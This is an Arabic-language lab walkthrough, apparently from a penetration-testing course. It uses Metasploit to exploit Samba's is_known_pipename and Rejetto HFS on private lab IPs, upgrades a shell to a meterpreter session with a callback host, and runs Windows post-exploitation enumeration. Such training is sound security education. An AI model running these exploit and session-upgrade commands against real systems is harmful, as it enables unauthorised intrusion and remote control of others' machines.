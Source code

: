 بنشوف الان الاستغلال مع بعض  
```bash
msfconsole  
use exploit/linux/samba/is_known_pipename  
set RHOSTS 192.136.51.3  
exploit  
```  

نشوف انه عطانا non-interactive session الان بنرقيها الى meterpreter session عندنا اكثر من طريقه خل نشوف  

اول طريقة نستخدم موديول معين  
```bash
use post/multi/manage/shell_to_meterpreter  
set SESSION 1  
set LHOST 192.136.51.2  
run  
```  

نشوف انه فتح لنا session ثاني وخلاها لنا meterpreter session  

وفيه طريقة ثانيه واسرع والي هي  
```bash
session -u 1
```  

طبعا الرقم يتغير حسب الـ id session الي عندك وتقدر تشوف الرقم عن طريق 'sessions' command 

الى هنا انتهى اللاب هذا نشوف الي بعده  

---

راح نبداء باللاب الثامن الي هو  

Windows Post Exploitation Modules 
----------------------------------|  

طبعا هنا معطينا التارقت  

Target = 10.5.29.207  

الان نفحص زي العاده  
```bash
nmap -sV -sC 10.5.29.207
```  

ونشوف انه عطانا البورتات ونشوف ان الـ HTTP شغال ومصاب كذالك بنستغل علطول  
```bash
msfconsole  
use exploit/windows/http/rejetto_hfs_exec  
set RHOSTS 10.5.29.207  
exploit  
```  

نشوف انه عطانا meterpreter shell  

الان الي بنسويه بنسوي enumeration عن طريق موديول بعد ماخترقنا الجهاز  

راح نشوف اول موديول معنا الي هو هذا  
```bash
use post/windows/gather/win_privs  
set SESSION 1  
exploit  
```  
طبعا الان عطانا وش الصلاحيات الي عندنا  

